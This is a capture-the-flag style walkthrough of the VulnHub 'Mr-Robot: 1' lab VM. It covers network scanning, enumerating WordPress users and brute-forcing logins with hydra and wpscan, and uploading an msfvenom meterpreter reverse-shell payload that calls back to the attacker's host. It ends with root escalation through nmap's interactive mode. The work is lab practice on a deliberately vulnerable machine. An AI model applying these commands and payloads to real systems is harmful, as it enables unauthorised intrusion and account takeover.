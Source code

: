 # Mr-Robot: 1
[VulnHub link](https://www.vulnhub.com/entry/mr-robot-1,151/)  
By Leon Johnson

* We are first greeted with a login page that is in command-line style, requiring users to specify both the username and the password:
![](/screenshots/mr-robot-1/Login.jpg)
* We try some common login credentials such as `admin:admin` and `admin:password`, which do not work.
* Run `nmap 10.0.2.*`, where we find 5 live hosts:
![](/screenshots/mr-robot-1/nmapScan.jpg)
* After eliminating our own IP address (`ifconfig`: 10.0.2.15) and our router gateway IP address (`route -n`: 10.0.2.1), there are 3 remaining hosts.
* Out of these 3 hosts, `10.0.2.5` can run SSH, HTTP and HTTPS services (of which the ports for the latter 2 are open), which tells us that there is likely a web server running on the host. We will start exploring this live host first.
* Run `nmap -p- -A 10.0.2.5`:
![](/screenshots/mr-robot-1/hostFullScan.jpg)
* True enough, we see an Apache HTTP server program running in the host.
* Open `10.0.2.5` on our browser and we get an interactive-style page greeting us, leaving us with a "terminal" where we can execute several restricted commands:
![](/screenshots/mr-robot-1/interactiveSite.jpg)
* Executing any of the commands yields either a video or a series of stories with pictures. `join` prompts for an email, but nothing noteworthy happens out of it either.
* Opening the page source, there does not seem like there is anything interesting to be extracted as well:
![](/screenshots/mr-robot-1/interactiveSitePageSource.jpg)
* Next, we will use `uniscan` which is a Remote File Include, Local File Include and Remote Command Execution vulnerability scanner. -q enables directory checks, -w enables file checks and -e enables robots.txt and sitemap.xml check.
* Run `uniscan -u 10.0.2.5 -qwe`:
![](/screenshots/mr-robot-1/uniscanResults.jpg)
* uniscan vs. dirbuster: *to-be-added*
* From the scan results, we see that the site is running on WordPress, since the directory checks included links that ended with `wp-`.
* There is a robots.txt found from the scan's file checks. Open it and we see that there are 2 files listed: `fsocity.dic` and `key-1-of-3.txt`. The former is an unordered dictionary wordlist, while the latter reveals a string: `073403c8a58a1f80d943455fb30724b9`.
* It is likely that the dictionary file will be required for some sort of bruteforce attack later.
* We are not quite sure if there is anything more to the string, but since it looks like a hash value, we will run `hash-identifier` against it:
![](/screenshots/mr-robot-1/hashIdentifierResults.jpg)
* It is likely that the string is a MD5 hash. Using several online MD5 cracker pages, there are no matches found to the hash value, so we will leave it at that for now.
* `sitemap.xml` yields nothing of interest:
![](/screenshots/mr-robot-1/sitemapXml.jpg)
* Head to the wp-login page of the WordPress site, and we try to login with some common login credentials. We find that the user `admin` does not exist ("invalid username").
* We have to find a way to see actual WordPress posts on the site (if any), since clicking "← Back to user's Blog!" on the login page brings us back to the interactive page that we initially encountered (which did not quite show us how we are able to escape that page to head to other pages of the site).
* To do so, we add a random parameter string to the end of the site (e.g. `/100`), in order to get the error message that the page cannot be found:
![](/screenshots/mr-robot-1/invalidPage.jpg)
* However, we are not able to find any posts on the site.
* Note: The walkthrough [here](https://www.youtube.com/watch?v=1-a-P1Q2AnA&t=322s) on YouTube shows that there is a post on the WordPress site, with the user `elliot`. The author of the vulnerable VM is likely to have removed this only post for the latest version.
* Run `wpscan --url 10.0.2.5 --enumerate u`, a black box WordPress vulnerability scanner, to see if we can obtain any usernames of accounts on the WordPress site:
![](/screenshots/mr-robot-1/wpScanUsers.jpg)
* Interestingly, we have no user results found (*which I am not sure why*).
* I guess this is where we have to use the dictionary wordlist that we had found earlier to find a valid username.
* We will run `hydra -V -L fsocity.dic -p testpassword 10.0.2.5 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username'`, where hydra is a parallelized login cracker which supports numerous protocols to attack:
![](/screenshots/mr-robot-1/hydraUsername.jpg)
* An exisiting WordPress username (`Elliot`) was found almost immediately after the cracker started its run, i.e. the username was found near the top of the dictionary list.

Explanation of how the `hydra` command works:
* `-V`: show login (username) and password for each attempt (can be omitted, will display only the valid username once found; however, if you want to see that hydra is doing its work, include this parameter).
* `-p testpassword`: we are not trying to crack passwords of a known user here so instead of testpassword, you can insert any random string as the password.
* In the parameters after specifying the protocol (`http-post-form`) to use, we insert 3 more parameters: the link to the login site, where the username and password which hydra will test will go, and how to determine the success/failure of each attempt.
* To find out where the login credentials will go, we have to open the page source of the login form and take the `name` attribute values for the username and password input fields respectively:
![](/screenshots/mr-robot-1/loginFormPageSource.jpg)
* Next, we need to find a string that distinguishes between a success/failure case. In this case, `Invalid username` is what hydra will see in most of its attempts, and it will flag those outcomes with this particular substring in its results as failed cases.
* Note: We cannot use the string `Error` to distinguish because even if we get a valid username, the page will still flag it as a negative result because the result page will still contain an error message, since the password is incorrect. Thus, we will only get negatives from the hydra scan.
* Having found an existing username `Elliot` for the WordPress site, our next step is to brute-force the password for that account.
* Note: The username is **case-insensitive** in our case, i.e. you can login as user `elliot` as well, which is considered the same as `Elliot`.

# Unsuccessful attempt to get elliot's password using hydra #
* We will similarly use `hydra` to brute-force the password for user Elliot: run `hydra -V 10.0.2.5 http-form-post "/wp-login.php:log=elliot&pwd=^PASS^:ERROR" -l elliot -P fsocity.dic`.
* There are 858,160 lines in the dictionary wordlist (run `cat fsocity.dic | wc -l` to find out), which means that hydra will try a total of 858,160 passwords.
* During the first 1 minute, hydra made around 1,100 attempts on my Kali VM (with these added parameters`-t 40 -w 1`: 40 connects in parallel and maximum 1 second wait for responses). The worst-case scenario of trying every single line as a password is that it would take around 12 hours to crack the password, which is way too long.
* Let us open the dictionary wordlist again to see if we are able to reduce the number of attempts that we have to make in the worst-case scenario.
* There might be duplicates in the wordlist, so we will sort the list first, then remove the duplicates: `cat fsocity.dic | sort | uniq > fsocity2.dic`. After doing so, we see that there are now only 11,452 lines within the modified wordlist (fsocity2.dic), which is just 1+% of the original wordlist. We are very much likely to get the password in under 10 minutes this time.
* Run `hydra -V -l elliot -P fsocity2.dic 10.0.2.5 http-post-form '/wp-login.php:log=elliot&pwd=^PASS^:ERROR'`.
* Note-to-self: Not sure why, but we cannot seem to use `hydra` to crack the password of `elliot`. We will always get 0 valid passwords. I suspect that it is due to the fact that it takes awhile for the page to transit to the wp-admin page after a successful login, and thus, it is considered an unsuccessful attempt. In light of this, I added additional parameters `-t 1 -c 10`, which makes hydra run only 1 connect at any point in time, and for the wait time to be 10 seconds per login attempt, but to no avail.

* We will use `wpscan` to brute-force the password for user Elliot: run `wpscan --url 10.0.2.5 --usernames elliot --passwords fsocity2.dic`:
![](/screenshots/mr-robot-1/wpScanBruteForcePassword.jpg)
* It took only around half a minute, which is way faster than any attempts using `hydra`.
* Note: If you were to run the same command again, you would get the results almost instantly, i.e. results were very likely to have been cached.
* Alternate: I tried to run same command using the original wordlist given, just to see how long it takes. It took n minutes:

* Besides the many repetitions in the orginal list, the password is also found somewhere at the end of the file, thus it took quite some time to get it.
* After logging in as elliot, we are able to login and install as plugin called [File Manager](https://wordpress.org/plugins/wp-file-manager/).
* Run `msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.153.160 LPORT=4000 -f raw > shell.php` on our Kali VM to generate our payload. The LHOST is the IP address of our Kali VM.
* The payload is shell.php. Upload it through File Manager, and the file path is htdocs/wp-content/uploads/shell.php.
* Run `msfconsole` on our Kali VM. Run `use exploit/multi/handler` and `set payload php/meterpreter_reverse_tcp`.
* Run `set LPORT=4000` and `set LHOST=192.168.153.160` (IP address of our Kali VM).
* Run `exploit -j -z`. Open our reverse shell on the victim VM, and we will see from our Kali VM terminal that a session has been started.
* Run `sessions -i 1` then `sysinfo` to confirm that we are running on a Linux machine as detected earlier from our nmap/Zenmap scan.
* Navigate to our home directory and we find a directory called robot. Enter robot and we find key-2-of-3.txt and password.raw-md5.
* The key text file cannot be opened by us at the moment because the file is only readable by root, with no other permissions set. However, the password.raw-md5 file can be opened by us.
* We find the username `robot` and his password hash (`c3fcd3d76192e4007dfb496cca67e13b`) within the password file. Search for the original value behind the MD5 hash on the Google search engine, and we have now got the password (`abcdefghijklmnopqrstuvwxyz`) to robot.
* To-do: try to login via ssh using robot username and password. Ensure that the IP address of the victim VM is entered correctly.
* After logging in as robot, we find that we are able to open key-2-of-3.txt.
* We have to now find the last key, which is in /root. However, even after logging in as robot, we do not have the permission to navigate to /root. We have to do a privilege escalation here, using a badly configured nmap.
* Run `nmap`, `nmap --interactive` and then `!sh` to get a shell. `whoami` shows that we are now `root`.
* Head to /root and we find key-3-of-3.txt: `04787ddef27c3dee1ee161b21670b4e4`.
